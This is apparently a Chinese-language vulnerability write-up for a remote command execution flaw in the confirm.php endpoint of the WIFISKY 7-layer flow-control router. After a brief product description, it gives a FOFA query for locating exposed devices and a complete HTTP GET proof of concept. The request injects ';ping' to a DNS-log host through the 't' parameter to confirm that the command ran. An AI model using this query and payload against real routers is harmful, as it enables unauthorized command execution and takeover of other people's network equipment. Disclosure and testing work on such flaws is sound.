

# WIFISKY-7层流控路由器confirm.php接口处存在RCE漏洞

## 1.产品介绍

WIFISKY7是一款支持7层流控的智能路由器，通过深度包检测技术，在网络层面实现精准的流量控制。其特点包括高度可定制的应用识别、智能QoS管理和强大的安全防护功能。用户可以根据需求，灵活设置不同应用的带宽优先级，实现网络流量的优化和管理。同时，WIFISKY7还配备了先进的防火墙和入侵检测系统，有效保障网络安全。


## 2.漏洞概述

WIFISKY-7层流控路由器confirm.php接口处存在RCE漏洞，恶意攻击者可能利用此漏洞执行恶意命令，获取服务器敏感信息，最终可能导致服务器失陷。

## 3.漏洞复现

FOFA：

```
title="WIFISKY 7层流控路由器"
```

POC：

```
GET /notice/confirm.php?t=;ping%20hjkca1.dnslog.cn HTTP/1.1
Host: 127.0.0.1
Cookie: SESSID=hjdgshj7hbjhbytvjvhj8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Te: trailers
Connection: close
```


